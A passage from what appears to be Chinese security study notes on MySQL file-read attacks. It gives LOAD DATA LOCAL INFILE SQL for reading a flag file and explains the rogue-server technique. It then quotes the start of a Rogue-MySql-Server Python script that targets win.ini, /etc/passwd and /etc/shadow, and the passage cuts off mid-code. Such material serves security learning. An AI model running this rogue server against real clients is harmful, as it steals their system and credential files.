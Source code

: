```sql
drop table mysql.m1;
CREATE TABLE mysql.m1 (code TEXT );
LOAD DATA LOCAL INFILE 'D://flag.txt' INTO TABLE mysql.m1 fields terminated by '';
select * from mysql.m1;
```

### MySQL 连接数据库时读取文件
该漏洞利用方式基于`load data local infile`读取文件方式. 简单来说, 客户端在执行`load data local`语句的时, 会先向`MySQL`服务端发送请求, 服务端接收到请求并返回需要读取的文件地址, 客户端接收该地址并进行读取, 接着将读取到的内容发送给服务端. 具体的攻击流程细节参考: [CSS-T | Mysql Client 任意文件读取攻击链拓展](https://paper.seebug.org/1112/)

简易恶意服务端代码, 摘自[Rogue-MySql-Server](https://github.com/Gifts/Rogue-MySql-Server), 这个过程需要客户端允许使用`load data local`, 并且该信息在客户端尝试连接到服务端的数据包中可以找到:

```python
#!/usr/bin/env python
#coding: utf8

import socket
import asyncore
import asynchat
import struct
import random
import logging
import logging.handlers

PORT = 3306
log = logging.getLogger(__name__)
log.setLevel(logging.DEBUG)
tmp_format = logging.handlers.WatchedFileHandler('mysql.log', 'ab')
tmp_format.setFormatter(logging.Formatter("%(asctime)s:%(levelname)s:%(message)s"))
log.addHandler(
    tmp_format
)

filelist = (
#    r'c:\boot.ini',
    r'c:\windows\win.ini',
#    r'c:\windows\system32\drivers\etc\hosts',
#    '/etc/passwd',
#    '/etc/shadow',
)

#================================================
#=======No need to change after this lines=======
#================================================

__author__ = 'Gifts'

def daemonize():
    import os, warnings
    if os.name != 'posix':
        warnings.warn('Cant create daemon on non-posix system')
        return

    if os.fork(): os._exit(0)
    os.setsid()
    if os.fork(): os._exit(0)
    os.umask(0o022)
    null=os.open('/dev/null', os.O_RDWR)
    for i in xrange(3):
        try:
            os.dup2(null, i)
        except OSError as e:
```